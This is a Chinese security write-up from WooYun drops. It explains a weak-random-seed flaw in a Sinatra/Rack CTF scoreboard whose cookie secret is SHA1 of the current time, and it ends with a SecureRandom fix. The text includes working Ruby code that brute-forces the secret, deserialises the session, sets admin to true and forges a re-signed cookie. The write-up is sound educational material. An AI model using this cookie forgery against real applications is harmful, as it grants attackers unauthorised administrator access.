

# 弱随机化种子漏洞科普

2014/04/15 11:29 | [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

上周我参加了一个 Bishop Fox 和 BYU 大学举办的 CTF 比赛，在比赛过程中我决定尝试一下入侵一下计分系统，并且我把入侵的过程记录了下来。

尽管客户端的 token 欺骗已经不是什么新鲜事了，但是这次的入侵过程可以作为 weak randomness 漏洞的一个很好的练习。（这次攻击目标所使用的框架并不是像 Rails 一样常用的框架）

最后说一句：这个漏洞是框架自己带有的而不是 Bishop Fox 或者是 BYU 的问题。

## 0x01 cookie 运行原理

* * *

在开始之前，我推荐你阅读一下[这篇博文](http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/)，他会告送你一个基于 ruby 的 webapps 如何处理 cookie。

简而言之，ruby 会生成一个 hash 数值作为一个 cookie 存储在用户客户端像这样

```
{ 'session_id' => '78894f58c088a9c6555370a0d97e373e715b91bc' } 
```

之后 ruby 分为三步把他存储到客户端

```
(1)使用 Marshal.dump 对数据结构进行序列化  
(2)使用 base64 编码第一步得到的字符串  
(3)计算 message 的 HMAC（HMAC 被用于 message 的完整性检查，这是 ruby 的一种机制以防用户篡改自己的 cookie） 
```

当以上三步做完之后，ruby 会在头文件中加入如下一段

```
Set-Cookie:"rack.session={base64-encoded message body}--{hmac};" 
```

实际的 cookie 是这样

```
Set-Cookie:"rack.session=BAh7BkkiD3Nlc3Npb25faWQGOgZFVEkiRTViNDY1NjdkYTAzYjYwYTdlZGIy%0ANDg4NWEyMzVlY2E2YzRkYmM5M2IwYzgxZWJlMDc1NmQ0NGRmODE0ZjEzYjAG%0AOwBG%0A--2148e8dc04eeba3bf0f4e0d70c04465b61c4758d;" 
```

上述处理 cookie 的过程有一个漏洞，message 中的信息可以被客户端还原，只需要对它进行 base64 解码和反序列化即可得到原始的 ruby object

ruby 对于 cookie 信任的前提是，通过 HMAC 验证 message 中的内容必须是有你代码中设定的密钥标记过的，只有这样 ruby 才会把 cookie 当做一个有效地凭证。

下图就是上述过程简要流程



如果你篡改了你的 cookie，会导致 HMAC 验证不通过，从而使你修改过的 cookie 值失效。

## 0x02 简介

* * *

CTF 的评分系统是一个 Sinatra-based 的 webapp，它使用了一些基本的 Rails 机制，提供了一个计分板的效果。看一下代码，还是比较简洁的。

这个 webapp 有一个有趣的现象就是，默认情况下代码库中没有配置文件，配置文件是在程序运行过程中生成的，下面是创建配置文件的代码。

```
begin
  require './config.rb'
rescue Exception => e
  # create default config.rb
  open('./config.rb', "w+") {|f|
    f.puts <<-"EOS"
COOKIE_SECRET = "#{Digest::SHA1.hexdigest(Time.now.to_s)}"
ADMIN_PASS_SHA1 = "08a567fa1a826eeb981c6762a40576f14d724849" #ctfadmin
STYLE_SHEET = "/style.css"
HTML_TITLE = "scoreserver.rb CTF"
EOS
    f.flush
  }
  require './config.rb'
end

```

值得注意的是，COOKIE_SECERT 就是前文中提到的 HMAC 所使用的 key。他是`Time.now.to_s`的 SHA-1 散列。这段代码中所使用的`Time.now.to_s`就是我们所说的不健壮的随机化种子。

## 0x03 原理

* * *

现在我们很容易知道，如果想要伪造 cookie，就必须得到一个合法的 HMAC 字符串，只有得到它之后，我们才可以通过修改 session-id 来控制 session。

这个漏洞的根源是因为它使用了，弱随机化种子，在上文的代码中，SHA1-hashing 加密了一个秒级别的精度的字符串，这样我们就可以使用暴力的方法尝试一天之内秒数只需要`60 x 60 x 24`次尝试。

而且我们并不需要把每次的尝试结果提交到 web 服务器，只需要在本地计算出正确的 key，然后再通过它构造出正确的 HMAC 提交即可。

## 0x04 POC

* * *

为了确定一下我们是否可以破解 HMAC，我们可以试一下。

首先，我们从 webapp 得到 cookie 和 HMAC。如果你想自己测试，copy 以下代码运行即可。

```
require 'faraday'

connection = Faraday.new(:url => 'http://localhost:4567')
response = connection.get '/'
cookie, hmac = response.headers[:'set-cookie'].split.first.chop.split('=').last.split('--')

```

现在我们只需要不断的获取 Time.now 和创建 HMACs 直到匹配为止。我们通过一个循环依次减小时间，直到找到正确的时间使得 SHA1 散列匹配而得到 session key。

```
require 'digest/sha1'
require 'openssl'

def create_hmac message, key
  OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, key, CGI.unescape(message))
end

seed = Time.now

while (hmac != create_hmac(cookie, Digest::SHA1.hexdigest(seed.to_s))) do
    seed -= 1
end

key = Digest::SHA1.hexdigest(seed.to_s)

```

这样我们就可以成功破解 key 了，这个 key 可以帮助我们创建合法的 HMAC。

## 0x05 利用

* * *

得到了 key，我们就可以找一下源代码中有什么能让我们提升权限的地方。

首先，代码会对 cookie 进行反序列化。

```
params = Marshal.load(Base64.decode64(CGI.unescape(cookie)))

```

这样修改之后，我们就可以赋予自己管理员权限。

```
params.merge!({ 'admin' => true })

```

通过上述语句重建 cookie

```
bad_cookie = CGI.escape(Base64.encode64(Marshal.dump(params)))
bad_hmac = create_hmac(bad_cookie, key)
header = "rack.session=#{bad_cookie}--#{bad_hmac};"

```

只要把上面得到的 cookie 内容，加到 header 里面就可以获取管理员权限了。

到达这一步只要查看源代码就可以很轻易地获取到每一题的答案了。

## 0x06 防御方法

* * *

我在 github 上提交了一个修改版本，其中使用这句代替了 cookie secret key 的生成

```
Digest::SHA1.hexdigest(Time.now.to_s) 
```

使用 SecureRandom 库生成随机数

```
SecureRandom.hex(20) 
```

这会生成一个 40 个字符的随机字符串

## 0x07 结论

* * *

这篇文章虽然在技术上没有什么实质性突破，但是作为一个弱随机漏洞的例子还是很不错的，希望在思路上可以启发到各位。

from:[`blog.tjll.net/weak-random-seed-rack-exploit/`](http://blog.tjll.net/weak-random-seed-rack-exploit/)

版权声明：未经授权禁止转载 [∑-TEAM](http://drops.wooyun.org/author/∑-TEAM "由 ∑-TEAM 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [利用 HTTP host 头攻击的技术](http://drops.wooyun.org/papers/1383)
*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)
*   [Zabbix SQL Injection/RCE – CVE-2013-5743](http://drops.wooyun.org/papers/680)